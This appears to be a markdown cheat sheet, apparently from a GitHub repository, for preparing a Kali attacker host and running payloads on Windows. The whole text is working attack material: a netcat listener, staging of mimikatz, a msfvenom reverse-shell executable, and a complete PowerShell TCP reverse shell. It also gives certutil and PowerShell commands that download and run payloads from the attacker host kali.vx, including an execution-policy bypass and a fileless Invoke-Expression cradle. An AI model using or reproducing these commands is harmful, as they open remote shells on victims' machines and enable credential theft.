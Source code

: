 # Setup Kali for connections

## Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## Prepare payload transfer

Prepare files to web server root

(Apache2 is already running with DocumentRoot at `/var/www/html`)

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### Windows reverse shell TCP:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

`vi /var/www/html/reverse.ps1` with below code:

```console
$ADDRESS='kali.vx'
$PORT=4444
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```

# Execute payloads on Windows

## Execute Windows reverse shell TCP

### Using certutil

```console
certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %USERPROFILE%\reverse.exe && %USERPROFILE%\reverse.exe
```

### Using PowerShell

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%USERPROFILE%\reverse.exe'); Start-Process %USERPROFILE%\reverse.exe
```

## Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```
